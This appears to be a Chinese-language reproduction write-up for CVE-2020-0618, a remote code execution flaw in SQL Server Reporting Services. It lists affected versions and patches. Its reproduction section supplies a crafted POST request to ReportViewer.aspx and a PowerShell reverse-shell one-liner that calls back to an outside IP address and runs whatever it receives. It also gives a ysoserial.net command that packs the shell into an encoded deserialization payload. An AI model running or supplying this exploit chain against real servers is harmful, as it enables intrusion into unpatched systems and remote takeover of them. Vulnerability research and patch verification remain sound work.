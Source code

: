 （CVE-2020-0618）SQL Server 远程代码执行漏洞
============================================

一、漏洞简介
------------

该漏洞需要经过身份验证后，攻击者向 SQL Server 的报告服务(Reporting
Services) 发送特制请求进行触发。攻击成功可获得SQL
Server服务的对应控制权限。

二、漏洞影响
------------

  产品                                   版本                         修复补丁编号
  -------------------------------------- ---------------------------- --------------
  SQL Server 2016 Service Pack 2(GDR)    13.0.5026.0 - 13.0.5101.9    KB4505220
  SQL Server 2016 Service Pack 2 CU11    13.0.5149.0 - 13.0.5598.27   KB4527378
  SQL Server 2014 Service Pack 3 (GDR)   12.0.6024.0 - 12.0.6108.1    KB4505218
  Server 2014 Service Pack 2 CU4         12.0.6205.1 - 12.0.6329.1    KB4500181
  SQL Server 2012 Service Pack 4 (QFE)   11.0.7001.0 - 11.0.7462.6    KB4057116

三、复现过程
------------

首先登陆 ReportServer/pages/ReportViewer.aspx

    POST /ReportServer/pages/ReportViewer.aspx HTTP/1.1
    Host: target
    Content-Type: application/x-www-form-urlencoded
    Content-Length: X

    NavigationCorrector$PageState=NeedsCorrection&NavigationCorrector$ViewState=[PayloadHere]&__VIEWSTATE=

可以在PowerShell中使用以下命令来使用[ysoserial.net](https://github.com/pwntester/ysoserial.net)工具生成有效负载：

    $command = '$client = New-Object System.Net.Sockets.TCPClient("192.168.6.135",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  =$sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

    $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)

    $encodedCommand = [Convert]::ToBase64String($bytes)

    .\ysoserial.exe -g TypeConfuseDelegate -f LosFormatter -c "powershell.exe -encodedCommand $encodedCommand" -o base64 | clip

> 编译好的ysoserial.net下载地址：<https://github.com/ianxtianxt/ysoserial.net/>
>
> ps：上述命令在powershell里面执行好后，会自动黏贴到剪贴板上。

![](resource/(CVE-2020-0618)SQLServer远程代码执行漏洞/media/rId26.png)

参考链接
--------

> <https://www.mdsec.co.uk/2020/02/cve-2020-0618-rce-in-sql-server-reporting-services-ssrs/>
